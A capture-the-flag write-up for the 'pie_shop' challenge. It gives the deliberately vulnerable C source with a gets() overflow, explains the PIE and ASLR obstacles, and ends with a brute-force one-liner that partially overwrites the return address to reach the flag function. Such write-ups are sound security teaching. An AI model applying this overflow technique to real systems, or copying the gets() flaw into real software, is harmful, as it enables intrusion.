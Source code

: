 ## exploit
Source code:
```C
#include <stdlib.h>
#include <stdio.h>
#include <string.h>

void flag() {
	system("/bin/cat flag.txt");
}

void get_pie() {
	printf("What type of pie do you want? ");

	char pie[50];
	gets(pie);

	if (strcmp(pie, "apple") == 0) {
		printf("Here's your pie!\n");
		printf("      _,..---..,_\n");
		printf("  ,-\"`    .'.    `\"-,\n");
		printf(" ((      '.'.'      ))\n");
		printf("  `'-.,_   '   _,.-'`\n");
		printf("    `\\  `\"\"\"\"\"`  /`\n");
		printf("      `\"\"-----\"\"`\n");
	} else {
		printf("Whoops, looks like we're out of that one.\n");
	}
}

int main() {
	gid_t gid = getegid();
	setresgid(gid, gid, gid);
	setvbuf(stdin, NULL, _IONBF, 0);
	setvbuf(stdout, NULL, _IONBF, 0);

	printf("Welcome to the pie shop! Here we have all types of pies: apple pies, peach pies, blueberry pies, position independent executables, pumpkin pies, rhubarb pies...\n");
	get_pie();

	return 0;
}
```
file:

```
pie_shop: setgid ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/l, for GNU/Linux 3.2.0, BuildID[sha1]=9318df53faeaad841153110c8ded995df882498b, not stripped
```

checksec:
```
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

The vulnerability was in `get_pie` function, in fact there was a `gets` that allowed to overwrite RA without any kind of checks or canary.

Ok but where to jump?

Answer this question was not easy, in fact we had:

* ASLR enabled
* PIE code 
* NX stack
* no leak avaiable

```
$ cat /proc/sys/kernel/randomize_va_space
2
```

This combination was terrible especially with PIE code:

this kind of protection maked unpredicatble where code segment were loaded and changed every time we executed binary. Of course the offsets, in the code section, remained the same. For istance we know that the offset of `flag` function ends with `1a9`, the `gets_pie` with `1bc` etc.

I explored two alternativies:

*  ### ret2vsyscall

![vmmap](https://i.ibb.co/vstZRxr/gdb-vmmap.png)
    as we can see in gdb we had vsyscall, this section load some functions at the same location without ASLR in order to speed up some system call. This could be useful in order to build some ROP chain but:

1. any attempts to jump into an arbitrary instruction inside this section cause a segfault.
    
![segfault](https://i.ibb.co/svmfLdb/gdb-crash-vsys.png|width=10)


2. the syscall inside this pages are:
        * __NR_gettimeofday
        * __NR_time
        * __NR_getcpu
        here maybe the interesting gadget could be RET but we are already able to jump at any location



*  ### partial overwrite

    The idea was to write the least significant 2 bytes of RA - in fact the offsets of instructions in code segment remained the same. Moreover I had another problem, to reach RA I needed to write `72` bytes plus `2` bytes to overwrite RA's least significant bytes, unfortunetley the len of malicious input was not multiple of 8, so a `NULL` byte was automatically appended.
    
    However:
    The goal is jump into `flag` procedure. Without overflow anything, the stack frame in `gets_pie` procedure contained RA to main procedure. So `5` of these bytes - the most significant ones - were the same as `flag` procedure, the problem was the less significant 3 bytes.
    
    Of these 3 bytes the least significant one was always `a9`, so remains 16 bit to guess and 8 of these (that i wasn't able to control) were: `0x00`. 
    
    The goal at this point was to find at least one execution that had `flag` procedure loaded into an address that ends with: `....0011a9`


```bash
for i in `seq 1 10000`; do python -c 'print "a"*72+"\xa9\x11"' | ./pie_shop 2> /dev/null | grep -i actf; done
```



##### flag: actf{a_different_kind_of_pie}



